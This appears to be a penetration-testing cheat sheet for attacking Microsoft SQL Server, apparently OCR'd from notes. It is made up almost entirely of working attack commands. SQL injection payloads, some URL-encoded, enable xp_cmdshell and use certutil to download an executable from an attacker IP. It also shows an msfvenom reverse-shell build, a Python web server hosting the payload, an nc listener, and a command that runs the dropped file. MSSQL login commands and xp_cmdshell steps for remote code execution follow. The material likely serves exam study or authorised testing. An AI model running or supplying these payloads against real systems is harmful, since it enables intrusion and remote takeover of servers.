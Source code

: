 ```
'EXECUTE sp_configure 'xp_cmdshell', 1; --
'RECONFIGURE; --
'EXECUTE xp_cmdshell 'certutil -urlcache -f 192.168.45.181:80/test.exe'; --

-----------------------------------------------------

msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o test.exe
'%3bEXEC%20sp_configure%20'show%20advanced%20options'%2c%201%3b--
'%3bRECONFIGURE%3b--
'%3bEXEC%20sp_configure%20'xp_cmdshell',1%3b--
'%3bRECONFIGURE%3b--
'%3bEXEC+xp_cmdshell+'whoami'%3b--
'%3bEXEC%20xp_cmdshell%20"net user"%3b--
python3 -m http.server 80
'EXEC+xp_cmdshell+'certutil+-urlcache+-f+192.168.45.181%3a80/test.exe'%3b--
nc -nvlp 4444
admin'EXEC+xp_cmdshell+'c%3a\\inetpub\\wwwroot\\test.exe%3b--

```

### <ins>1433 - MSSQL</ins>

```

1. Login: sqsh -S <IP> -U <username> -P "<pass>"

2. Login: sqsh -S <IP> -U .\\<Username> -P <pass> -D <database>

3. Login: impacket-mssqlclient :<username>:<pass>@<IP> -windows-auth

4. Login: impacket-mssqlclient :<username>:<pass>@<IP> -local-auth

```

#### xp_cmdshell -> RCE

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>

In sqsh, you need to use GO after writing the query to send it
Do one by one each command:

# Get users that can run xp_cmdshell
Use master
EXEC sp_helprotect 'xp_cmdshell'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE

# This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
EXEC master..xp_cmdshell 'whoami'

```